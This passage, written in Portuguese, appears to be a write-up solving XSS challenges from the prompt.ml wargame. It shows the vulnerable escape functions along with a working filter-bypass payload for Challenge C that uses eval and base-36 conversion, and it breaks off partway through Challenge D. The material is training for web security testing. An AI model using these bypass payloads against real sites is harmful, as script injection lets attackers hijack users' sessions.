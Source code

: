 <img width="1149" height="581" alt="Captura de Tela 2025-08-31 às 17 24 00" src="https://github.com/user-attachments/assets/ca017756-0d5f-4300-a600-5241d74b0725" />

Explicação:
O código insere o valor dentro de um JSON que é manipulado diretamente em um script.  
Ao passar um conteúdo que inclua uma chamada de função, esse valor é incorporado ao texto da chave `"message"`.  
Durante a execução, o JavaScript interpreta o trecho injetado como código e o executa, evidenciando a vulnerabilidade.

#### Desafio C

Código:
````
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}
````
Resolucão funcional:
````
eval(1558153217..toString(36))(1)
````

<img width="1146" height="461" alt="Captura de Tela 2025-08-31 às 17 30 41" src="https://github.com/user-attachments/assets/1443f107-be2a-4e49-a66a-54157a8fb971" />

Explicação:
O código tenta bloquear `prompt` substituindo por `alert`, mas a função `eval` permite contornar essa restrição.  
Usando a conversão para base 36, é possível gerar a palavra bloqueada de outra forma e executá-la dentro do `eval`.  
Com isso, o comando é interpretado e a falha pode ser explorada.


#### Desafio D

Código:
````
 function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
    // a simple picture plugin
    try {
        // pass in something like {"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        var data = JSON.parse(input);
        var config = extend({
            // default image source
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
````